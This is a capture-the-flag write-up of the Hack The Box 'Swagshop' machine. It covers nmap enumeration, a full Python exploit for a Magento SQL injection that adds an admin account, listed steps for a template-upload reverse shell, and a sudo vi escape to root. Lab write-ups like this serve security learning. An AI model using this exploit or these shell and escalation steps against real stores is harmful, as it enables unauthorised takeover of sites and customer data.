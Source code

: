 ```yaml
---
layout: single_c
title:  "Hack The Box - Swagshop Writeup"
date:   2019-10-17 10:43:16 +0530
categories: Hack The Box
classes: wide
---
```

### [Hack The Box - Swagshop]()

## Enumeration
Lets start by enumerating

#### Nmap
Starting with namp
```bash
nmap -sC -sV 10.10.10.140

# Nmap 7.70 scan initiated Thu Aug 29 15:03:29 2019 as: nmap -sC -sV -oA nmap 10.10.10.140
Nmap scan report for ip-10-10-10-140.ap-south-1.compute.internal (10.10.10.140)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 15:04:15 2019 -- 1 IP address (1 host up) scanned in 45.63 seconds
```
There seems to be a web Magento service running on port 80. Let enumerate further
()
#### Directory Buster
`dirb` found an admin login page
{% raw %}![alt]({{ site.url }}{{ site.baseurl }}//assets/images/htbimg/swag1.png){% endraw %}

## Vulnerability

#### Searchsploit
```bash
root@kali:~# searchsploit magento
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
Magento 1.2 - '/app/code/core/Mage/Adm | exploits/php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adm | exploits/php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' C | exploits/php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserializ | exploits/php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) | exploits/php/webapps/37811.py
Magento Server MAGMI Plugin - Multiple | exploits/php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a -  | exploits/php/webapps/35052.txt
Magento eCommerce - Local File Disclos | exploits/php/webapps/19793.txt
Magento eCommerce - Remote Code Execut | exploits/xml/webapps/37977.py
eBay Magento 1.9.2.1 - PHP FPM XML eXt | exploits/php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted | exploits/php/webapps/38651.txt
--------------------------------------- ----------------------------------------
Shellcodes: No Result
``` 
I had to try most of these to find the right one. The issue is a time based `sql injection`
[Exploit](https://www.exploit-db.com/exploits/37977)

## Exploitation
I modified the python script to correct the url and added a user named `joe123` with password `forme`

```python
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,
`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES
('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES 
(1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="joe123", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
#print target_url
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

 ```
 
 And now we can login into the application
## Usershell
 searched and found magento froghpper vuln [Linl](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)
 
 1. change developer settings
 2. upload file
 3. create template
 4. start netcat
 5. preview the template
 6. and we have a shell
 
## Priv esc
## Enum again for root
 ```
 
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*


[00;33m[+] Possible sudo pwnage![00m
/usr/bin/vi

```
so lets try pwning using vim

```
$ sudo /usr/bin/vi /var/www/html/test1
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_beos-ansi
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
defaulting to 'ansi'

:shell  
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
:shell

id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
root.txt
ls -la
cat root.txt
c2b087d66e14********************

   ___ ___
 /| |/|\| |\
/_| Â´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
                   
```
## Solved